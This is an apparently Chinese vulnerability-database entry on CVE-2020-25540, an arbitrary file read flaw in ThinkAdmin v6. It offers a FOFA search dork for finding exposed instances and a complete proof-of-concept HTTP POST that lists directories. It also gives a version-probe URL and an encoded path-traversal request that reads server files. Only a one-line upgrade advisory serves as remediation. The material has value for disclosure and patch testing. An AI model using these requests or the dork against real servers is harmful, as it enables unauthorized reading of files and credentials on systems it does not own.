 ```yaml
---
title: 'Thinkadmin-v6任意文件读取漏洞（CVE-2020-25540）'
date: Mon, 21 Sep 2020 00:58:07 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 漏洞信息:

ThinkAdmin是一套基于ThinkPHP框架的通用后台管理系统。ThinkAdmin 6版本存在路径遍历漏洞。攻击者可利用该漏洞通过GET请求编码参数任意读取远程服务器上的文件。

#### 影响范围:

Thinkadmin版本小于 ≤ 2020.08.03.01

#### 漏洞复现:

fofa\_dork: “ThinkAdmin” && title”系统登录 · ThinkAdmin”

##### POC:

```
POST /admin.html?s=admin/api.Update/node HTTP/1.1
Host: xxxxxx
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

rules=%5B%22.%2F%22%5D 
```![](Thinkadmin-v6任意文件读取漏洞（CVE-2020-25540）.assets/16273642944310882.jpg) 获取版本信息:```
https://xxxxx/admin.html?s=admin/api.Update/version 
```2、⽂件读取,后⾯那⼀串是UTF8字符串加密后的结果。计算⽅式在Update.php中的加密函数。 /admin.html? s=admin/api.Update/get/encode/34392q302x2r1b37382p382x2r1b1a1a1b1a1a1b2r33322u2x2v1b2s2p382p2q2p372t0y342w34 [![](Thinkadmin-v6任意文件读取漏洞（CVE-2020-25540）.assets/1627364294675067.jpg)](Thinkadmin-v6任意文件读取漏洞（CVE-2020-25540）.assets/1627364294675067.jpg)

#### 修复方案:

目前厂商已经发布修复相关问题，请受影响用户尽快升级到安全版本